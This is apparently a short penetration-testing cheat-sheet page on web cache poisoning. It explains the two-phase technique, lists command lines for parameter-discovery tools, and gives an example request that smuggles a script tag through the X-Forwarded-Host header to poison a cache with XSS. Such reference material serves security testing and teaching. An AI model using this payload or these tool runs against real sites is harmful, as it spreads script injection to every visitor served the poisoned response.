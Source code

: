 # Web Cache Poisoning

## General

{% hint style="info" %}
Web cache poisoning is an advanced technique whereby an attacker exploits the behavior of a web server and cache so that a harmful HTTP response is served to other users.

Fundamentally, web cache poisoning involves two phases. First, the attacker must work out how to elicit a response from the back-end server that inadvertently contains some kind of dangerous payload. Once successful, they need to make sure that their response is cached and subsequently served to the intended victims.

A poisoned web cache can potentially be a devastating means of distributing numerous different attacks, exploiting vulnerabilities such as XSS, JavaScript injection, open redirection, and so on.
{% endhint %}

## Tools

```bash
# https://github.com/s0md3v/Arjun
python3 arjun.py -u https://url.com --get 
python3 arjun.py -u https://url.com --post
# https://github.com/maK-/parameth
python parameth.py -u https://example.com/test.php
# https://github.com/devanshbatham/ParamSpider
python3 paramspider.py --domain example.com
# https://github.com/s0md3v/Parth
python3 parth.py -t example.com
```

```markup
# XSS for users accessing /en?region=uk:
GET /en?region=uk HTTP/1.1
Host: innocent-website.com
X-Forwarded-Host: a."><script>alert(1)</script>"
```



